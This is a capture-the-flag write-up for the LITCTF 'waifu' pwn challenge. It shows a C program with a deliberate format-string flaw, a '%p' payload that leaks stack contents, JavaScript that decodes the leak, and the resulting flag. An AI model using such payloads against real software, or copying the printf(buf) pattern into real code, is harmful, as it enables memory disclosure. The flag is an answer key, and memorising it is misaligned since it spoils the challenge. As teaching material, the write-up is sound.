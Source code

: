 # pwn/waifu

## Challenge

Honestly I just needed a name, I am almost out of time :skull:.
<br>
Connect with `nc litctf.live 31791`

[waifu.zip](https://drive.google.com/uc?export=download&id=1SVW7rWSdpu3cPYDyATw5a9pJJMH0umTS)

## Solution

Ooooo, we're given a C file (and an executable):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(){
	setbuf(stdout, 0x0);

	FILE *f = fopen("flag.txt", "r");
	if(f == NULL){
		puts("Something is wrong. Please contact Rythm.");
		exit(1);
	}	

	char *buf = malloc(0x20);
	char *flag = alloca(0x1000);
	fgets(flag, 0x1000, f);

	puts("Do you like waifus?");

	scanf("%20s", buf);
	puts("");

	if(!strcmp(buf, "yes")){
		puts("Good.");
	}else{
		puts("Wtmoo how could you say:");
		printf(buf);
		puts("");
	}

	free(buf);

	return 0;
}
```
This isn't like before, but it's still another classic problem.

The only output is the `printf`. Note the usage of `printf` over `puts`; `printf`'s first argument can contain format specifiers, which are filled in by the following arguments. But that means we can input format specifiers, but since there are no following arguments, they'll instead be filled in by the contents of the stack, including the flag.

Note the program will only read in 20 characters. To maximize data extracted, we use the format specifier `%p`, a 64-bit pointer address (instead of, say, `%x`, a 32-bit hex integer; to specify longer as in `%xll` uses up characters):
```py
print("%p"*10)
```
We get
```
0x7f5ea9d9b723(nil)0x7f5ea9cbc0770x190x7c0x667b46544354494c0x747833745f6d30720x755f68732e3772340x61616161616161770x7d61616161616161
```
Conveniently, there are `0x`s delimiting each value. As these are little-endian, we reverse the bytes in each to get the character string:
```js
"..."
	.replaceAll("(nil)","0x0")
	.split("0x").slice(1) // get array of "addresses"
	.map(
		s=>s.padStart(16,"0").match(/../g).reverse().map( // reverse bytes (pairs of hex digits)
			c=>String.fromCharCode(parseInt(c,0x10)) // to ASCII
		).join("")
	).join("");
// "#·Ù©^\u007f\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000wÀË©^\u007f\u0000\u0000\u0019\u0000\u0000\u0000\u0000\u0000\u0000\u0000|\u0000\u0000\u0000\u0000\u0000\u0000\u0000LITCTF{fr0m_t3xt4r7.sh_uwaaaaaaaaaaaaaa}"
```
A bunch of junk, and then our flag!

## Flag

`LITCTF{fr0m_t3xt4r7.sh_uwaaaaaaaaaaaaaa}`
